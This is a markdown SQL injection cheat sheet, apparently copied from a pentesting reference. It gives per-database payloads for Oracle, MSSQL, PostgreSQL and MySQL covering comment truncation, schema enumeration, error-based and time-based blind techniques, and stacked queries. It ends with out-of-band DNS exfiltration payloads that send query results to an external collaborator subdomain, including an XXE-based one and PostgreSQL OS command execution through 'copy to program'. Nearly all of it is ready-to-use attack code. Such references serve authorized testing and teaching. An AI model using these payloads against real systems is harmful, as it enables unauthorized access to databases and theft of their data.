 <h1>SQL injection cheat sheet</h1>

This SQL injection cheat sheet contains examples of useful syntax that we can use to perform a variety of tasks that often arise when performing SQL injection attacks. 

## String concatenation

We can concatenate together multiple strings to make a sigle string.

```
Oracle      'foo'||'bar'

Microsoft   'foo'+'bar'

PostgreSQL  'foo'||'bar'

MySQL       'foo' 'bar' [Note the space between the two strings]
            CONCAT('foo','bar')

```

## Substring

We can extract part of a string, from a specified offset with a specified length. Note that the offset index is 1-based. Each of the following expressions will return the string 'ke'.

```
Oracle      SUBSTR('hacker', 4, 2)

Microsoft   SUBSTRING('hacker', 4, 2)

PostgreSQL  SUBSTRING('hacker', 4, 2)

MySQL       SUBSTRING('hacker', 4, 2)
```

## Comments

We can use comments to truncate a query and remove the portion of the original query taht follows our input.

```
Oracle      --comment

Microsoft   --comment
            /*comment*/
              
PostgreSQL  --comment
            /*comment*/
              
MySQL       #comment
            -- comment [Note the space after the double dash]
            /*comment*/

```

## Database version

We can query the database to determine its type and version. This information is useful when formulating more complicated attacks.

```
Oracle      SELECT banner FROM v$version
            SELECT version FROM v$instance
              
Microsoft   SELECT @@version

PostgreSQL  SELECT version()

MySQL       SELECT @@version
```

## Databse contents

We can list tables that exist in the database, and the columns that those tables contain.

```
Oracle      SELECT * FROM all_tables
            SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'
              
Microsoft   SELECT * FROM information_schema.tables
            SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
              
PostgreSQL  SELECT * FROM information_schema.tables
            SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
              
MySQL       SELECT * FROM information_schema.tables
            SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'

```

## Conditinal errors

We can test a single boolean condition and trigger a database error if the condition is true.

```
Oracle 	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN to_char(1/0) ELSE NULL END FROM dual

Microsoft 	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END

PostgreSQL 	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN cast(1/0 as text) ELSE NULL END

MySQL 	SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a') 
```

## Batched (or stacked) queries

We can use batched queries to execute multiple queries in succession. Note that while the subsequent queries are executed, the results are not returned to the application. Hence this technique is primarly of use in relation to blind vulnerabilites where you can use a second query to trigger a DNS lookup, conditional error, or time delay.

```
Oracle 	Does not support batched queries.

Microsoft 	QUERY-1-HERE; QUERY-2-HERE

PostgreSQL 	QUERY-1-HERE; QUERY-2-HERE

MySQL       Does not support batched queries. 
```

## Time delays

You can cause a time delay in the database when the query is processed. The following will cause an unconditional time delay of 10 seconds.

```
Oracle 	dbms_pipe.receive_message(('a'),10)

Microsoft 	WAITFOR DELAY '0:0:10'

PostgreSQL 	SELECT pg_sleep(10)

MySQL 	SELECT sleep(10)

```

## Conditional time delays

We can test a single boolean condition and trigger a time delay if the condition is true.

```
Oracle 	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual

Microsoft 	IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'

PostgreSQL 	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END

MySQL 	SELECT IF(YOUR-CONDITION-HERE,sleep(10),'a') 
```

## DNS lookup

We can cause the database to perform a DNS lookup to an external domain. To do this, we will need to user Burp Collaborator client to generate a unique Burp Collaborator subdomain that we will use in our attack, and then poll the Collaborator server to confirm that a DNS lookup occurred.

```
Oracle 	The following technique leverages an XML external entity (XXE) vulnerability to trigger a DNS lookup. The vulnerability has been patched but there are many unpatched Oracle installations in existence:
            SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote  SYSTEM "http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual

            The following technique works on fully patched Oracle installations, but requires elevated privileges:
            SELECT UTL_INADDR.get_host_address('YOUR-SUBDOMAIN-HERE.burpcollaborator.net')

Microsoft 	exec master..xp_dirtree '//YOUR-SUBDOMAIN-HERE.burpcollaborator.net/a'

PostgreSQL 	copy (SELECT '') to program 'nslookup YOUR-SUBDOMAIN-HERE.burpcollaborator.net'

MySQL 	    The following techniques work on Windows only:
            LOAD_FILE('\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\\a')
            SELECT ... INTO OUTFILE '\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\a'
```

## DNS lookup with data exfiltration

We can cause the database to perform a DNS lookup to an external domain containing the results of an injected query. To do this, we will need to use Burp Collaborator client to generate a unique Burp Collaborator subdomain that we will use in our attack, and then poll the Collaborator server to retrieve details of any DNS interactions, including the exfiltred data.

```
Oracle 	SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote  SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual

Microsoft 	declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net/a"')

PostgreSQL 	create OR replace function f() returns void as $$
            declare c text;
            declare p text;
            begin
            SELECT into p (SELECT YOUR-QUERY-HERE);
            c := 'copy (SELECT '''') to program ''nslookup '||p||'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net''';
            execute c;
            END;
            $$ language plpgsql security definer;
            SELECT f();

MySQL 	    The following technique works on Windows only:
            SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\a'
```
